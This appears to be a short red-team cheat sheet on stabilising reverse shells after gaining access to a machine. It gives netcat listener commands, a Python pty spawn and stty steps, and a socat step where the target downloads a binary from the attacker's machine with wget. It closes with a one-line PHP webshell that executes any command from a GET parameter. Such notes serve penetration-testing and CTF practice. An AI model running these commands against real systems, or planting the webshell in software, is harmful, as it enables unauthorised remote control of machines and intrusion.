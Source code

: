 ```yaml
---
category:
  - redteam
---
```


# Stabilization
## TTY Size
In second terminal window, get rows & columns with `stty -a`, then set them in the remote shell with `stty {rows|cols} <number>`

## Netcat
Rlwrap: `rlwrap nc -lvnp <port>`
If Python is available:
```bash
sudo nc -lvnp 1234  # listen for connections on port 1234
python -c 'import pty;pty.spawn("/bin/bash")'   # start bash
export TERM=xterm
[Ctrl+Z]    # background the session
stty raw -echo; fg     # Stabilze and foreground the shell
```
## Socat
If Python is available:
```
# Start Python webserver on local machine
sudo python3 -m http.server 80
# Get a netcat shell
sudo nc -lvnp <port> 
# Download socat compiled binary to target machine
wget \{local IP}/socat -O /tmp/socat
```

# Basic Webshell
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
See `/usr/share/webshells` on Kali
